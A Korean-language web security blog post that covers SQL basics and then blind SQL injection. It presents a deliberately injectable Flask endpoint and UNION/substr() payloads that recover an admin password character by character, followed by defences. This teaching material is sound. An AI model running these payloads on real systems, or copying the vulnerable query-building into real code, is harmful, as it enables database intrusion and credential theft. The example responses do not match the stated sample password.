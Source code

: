 ```yaml
---
title: "[Infosec] SQL & Blind SQL Injection(sqli) 정리"
date: 2025-09-10 20:20:00 +0900
categories: [보안, Web]   # 카테고리는 여러 계층도 가능 [상위, 하위]
tags: [웹해킹, SQL, DBMS, SQLi, BlindSQLi]          # 해시태그처럼 글 묶기
description: "SQL의 허점을 이용해라"
author: "송지민"
toc: true
---
```

# 가장 치명적이고 오래된 웹 공격 수단

---
> 이 글은 **보안 학습/방어 목적**입니다. 실습은 반드시 **자신의 로컬/테스트 환경**에서만 하세요.

## DBMS란?

DBMS(Database Management System)는 데이터베이스를 관리하며 **CRUD(Create, Read, Update, Delete)** 기능을 제공하고, 다수의 사용자가 동시에 접근할 수 있도록 해준다.

| 종류 | 대표 DBMS |
| --- | --- |
| 관계형(Relational) | MySQL, MariaDB, PostgreSQL, SQLite |
| 비관계형(Non-Relational) | MongoDB, CouchDB, Redis |

- **관계형**: 행과 열(테이블, 스프레드시트와 유사) 구조  
- **비관계형**: 주로 Key-Value, 문서, 그래프 등의 구조

---

## SQL 명령어 구분

- **DDL (Data Definition Language)**: 데이터 정의어 (CREATE, DROP, ALTER …)  
- **DML (Data Manipulation Language)**: 데이터 조작어 (SELECT, INSERT, UPDATE, DELETE)  
- **DCL (Data Control Language)**: 데이터 제어어 (GRANT, REVOKE …)

### DML 기본 문법

- SELECT: 조회  
  ```sql
  SELECT 컬럼 FROM 테이블 WHERE 조건 ORDER BY 기준 LIMIT 갯수 OFFSET 시작위치;
  ```

- INSERT: 추가  
  ```sql
  INSERT INTO board (title, content) VALUES ('title 1', 'content 1');
  ```

- UPDATE: 수정  
  ```sql
  UPDATE users SET password='newpw' WHERE username='admin';
  ```

- DELETE: 삭제  
  ```sql
  DELETE FROM users WHERE username='guest';
  ```

---

## SQL 고급 기능

### UNION (합집합)
```sql
SELECT * FROM users
UNION
SELECT "DemoUser", "DemoPW";
```
조건:
1. 컬럼 개수가 동일해야 함  
2. 컬럼 타입이 동일해야 함  

### Subquery (서브쿼리)
쿼리 안에서 또 다른 쿼리를 사용하는 것.

```sql
SELECT 1,2,(SELECT 456);
```

### COLUMNS 절 서브쿼리
컬럼 절에서는 반드시 **단일 행, 단일 열**만 반환 가능.  
행이 여러 개거나 열이 여러 개면 오류 발생.

### FROM 절 서브쿼리 (Inline View)
다중 행/다중 열 모두 가능.

```sql
SELECT * FROM (SELECT username, 1234 FROM users) as u;
```

### WHERE 절 서브쿼리
다중 행 반환 가능.

```sql
SELECT * FROM users WHERE username IN (SELECT "admin" UNION SELECT "guest");
```

---

# Blind SQL Injection

**Blind SQLi**는 서버의 응답이 직접적으로 쿼리 결과를 보여주지 않고, **참/거짓 여부**만 알려줄 때 발생한다.  
공격자는 참/거짓 응답을 이용해 데이터베이스 내부 정보를 **추측하며 알아낸다.**

## 예시 코드 (Flask 서버)

```python
from flask import Flask, request
import pymysql

app = Flask(__name__)

def getConnection():
    return pymysql.connect(
        host='localhost',
        user='demo',
        password='demo',
        db='demo',
        charset='utf8'
    )

@app.route('/', methods=['GET'])
def index():
    username = request.args.get('username')
    sql = "select username from users where username='%s'" % username

    conn = getConnection()
    curs = conn.cursor(pymysql.cursors.DictCursor)
    curs.execute(sql)
    rows = curs.fetchall()
    conn.close()

    if rows and rows[0]['username'] == "admin":
        return "True"
    else:
        return "False"

app.run(host='0.0.0.0', port=8000)
```

### DB 가정 데이터

| username | password |
| --- | --- |
| admin | pw |
| guest | pw |

---

## Blind SQLi 공격 기법

### 1) UNION을 이용한 공격
```
// 요청
/?username=' union select 'admin' -- -
// 응답
True
```

### 2) 비교 구문을 이용한 공격
```
// 요청
/?username=' union select if(substr(password,1,1)='B','admin','not admin') from users where username='admin' -- -
// 응답
False

/?username=' union select if(substr(password,1,1)='P','admin','not admin') from users where username='admin' -- -
// 응답
True

/?username=' union select if(substr(password,2,1)='a','admin','not admin') from users where username='admin' -- -
// 응답
True
```

> 이런 식으로 한 글자씩 맞춰가며 비밀번호 값을 알아낼 수 있다.

---

## 방어 방법

1. **Prepared Statement (준비된 쿼리)**  
   - 파라미터 바인딩으로 문자열 결합을 차단  
2. **ORM 사용**  
   - Django ORM, SQLAlchemy 등 안전한 API 사용  
3. **최소 권한 원칙**  
   - DB 계정에 불필요한 권한 부여 금지  
4. **에러 숨김 처리**  
   - 상세 SQL 에러 대신 일반 메시지 반환  
5. **WAF(Web Application Firewall)**  
   - SQLi 탐지 및 차단 보조

---

## 요약

- **SQL**: 데이터 조작/정의/제어 언어  
- **UNION/Subquery**: SQL 기능 확장, 하지만 공격자에겐 공격 표면 확대  
- **Blind SQLi**: 결과 대신 참/거짓만으로 정보를 유출하는 공격  
- **방어 핵심**: **Prepared Statement + 최소 권한 + 에러 은폐**

